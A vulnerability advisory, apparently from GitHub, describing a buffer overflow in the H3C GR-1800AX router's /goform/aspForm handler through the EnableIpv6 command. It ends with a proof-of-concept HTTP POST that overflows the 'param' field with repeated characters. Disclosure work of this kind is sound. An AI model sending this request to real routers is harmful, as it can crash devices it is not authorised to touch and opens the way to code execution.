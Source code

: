 # Information



**Vendor of the products:** New H3C Technologies Co., Ltd.

**Vendor's website:** [新华三 - 融绘数字未来，共享美好生活](https://www.h3c.com/cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** H3C GR-1800AX

**Affected firmware version:** <=100R008

**Firmware download address:** [download](https://www.h3c.com/cn/Home/Agreement//default.htm?t=H3C%20MiniGRW1B0V100R008%20%E7%89%88%E6%9C%AC%E8%BD%AF%E4%BB%B6%E5%8F%8A%E8%AF%B4%E6%98%8E%E4%B9%A6&s=13059137)

# Overview



H3C Mini router H3C GR-1800AX has a serious buffer overflow vulnerability. By routing/goform/aspForm and properly controlling the param field, a buffer overflow can be caused, resulting in a denial of service attack or even remote code execution. Specifically triggered by EnableIpv6

# Vulnerability details

Here is the location where the specific function is executed

![image-20250411202340025](1/image-20250411202340025.png)

There is no detection here, which leads to buffer overflow

![image-20250411202400528](1/image-20250411202400528.png)

# POC

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 239
Cache-Control: max-age=0
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/mobile_access_net.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=EnableIpv6&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20250411202436175](1/image-20250411202436175.png)